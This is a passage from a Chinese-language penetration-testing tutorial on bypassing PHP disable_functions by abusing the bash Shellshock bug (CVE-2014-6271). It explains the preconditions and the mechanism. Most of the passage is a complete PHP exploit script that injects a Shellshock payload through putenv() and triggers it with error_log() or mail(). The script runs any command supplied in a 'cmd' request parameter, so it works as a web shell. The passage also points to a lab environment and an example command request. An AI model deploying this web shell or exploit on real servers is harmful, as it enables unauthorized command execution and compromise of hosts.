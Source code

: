 ![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108312130111.png-water_print](assets/1699410109-bdb522af88b42a9b147d2b5c3f38997b.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108312130111.png-water_print")

## [](#4-%E5%88%A9%E7%94%A8%E7%A0%B4%E5%A3%B3%E6%BC%8F%E6%B4%9E--shellshock)4 利用「破壳漏洞」- ShellShock

### [](#41-%E5%89%8D%E6%8F%90)4.1 前提

-   Linux 操作系统
-   `putenv()`、`mail()` 或 `error_log()` 函数可用
-   目标系统的 `/bin/bash` 存在 `CVE-2014-6271` 漏洞
-   `/bin/sh -> /bin/bash` sh 默认的 shell 是 bash

### [](#42-%E5%8E%9F%E7%90%86)4.2 原理

该方法利用的 bash 中的一个老漏洞，即 Bash Shellshock 破壳漏洞（CVE-2014-6271）。

在 Bash 中一种独有的方法来定义函数 , 即 : **通过环境变量来定义函数**。当某个环境变量的值以字符串 `() {` 的格式作为开头，那么该变量就会被当前 Bash 当作一个导出函数 ( `export function` ) , 该函数仅会在当前 Bash 的子进程中生效。

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202109011739693.png-water_print](assets/1699410109-9076970a80d66da740bde0f67cb84f99.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202109011739693.png-water_print")

一般函数体内的代码不会被执行，但破壳漏洞会错误的将 `{}` 花括号外的命令进行执行。PHP 里的某些函数（例如：mail()、imap\_mail()）能调用 popen 或其他能够派生 bash 子进程的函数，可以通过这些函数来触发破壳漏洞 (CVE-2014-6271) 执行命令。

EXP 脚本：

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>``` | ```php<br><?php<br>function runcmd($c){<br>  $d = dirname($_SERVER["SCRIPT_FILENAME"]);<br>  if(substr($d, 0, 1) == "/" && function_exists('putenv') && (function_exists('error_log') \| function_exists('mail'))){<br>    if(strstr(readlink("/bin/sh"), "bash")!=FALSE){<br>      $tmp=tempnam(sys_get_temp_dir(), 'as');<br>      putenv("PHP_LOL=() { x; }; $c >$tmp 2>&1");<br>      if (function_exists('error_log')) {<br>        error_log("a", 1);<br>      }else{<br>        mail("a@127.0.0.1", "", "", "-bv");<br>      }<br>    }else{<br>      print("Not vuln (not bash)\n");<br>    }<br>    $output = @file_get_contents($tmp);<br>    @unlink($tmp);<br>    if($output!=""){<br>      print($output);<br>    }else{<br>      print("No output, or not vuln.");<br>    }<br>  }else{<br>    print("不满足使用条件");<br>  }<br>}<br><br>// runcmd("whoami"); // 要执行的命令<br>runcmd($_REQUEST["cmd"]); // ?cmd=whoami<br>?><br>``` |

### [](#43-%E5%88%A9%E7%94%A8)4.3 利用

同样利用 [AntSword-Labs](https://github.com/AntSwordProject/AntSword-Labs) 里的环境：[bypass\_disable\_functions/2](https://github.com/AntSwordProject/AntSword-Labs/tree/master/bypass_disable_functions/2)

尝试使用 `http://IP:18080/?ant=system('ls');` 执行失败。
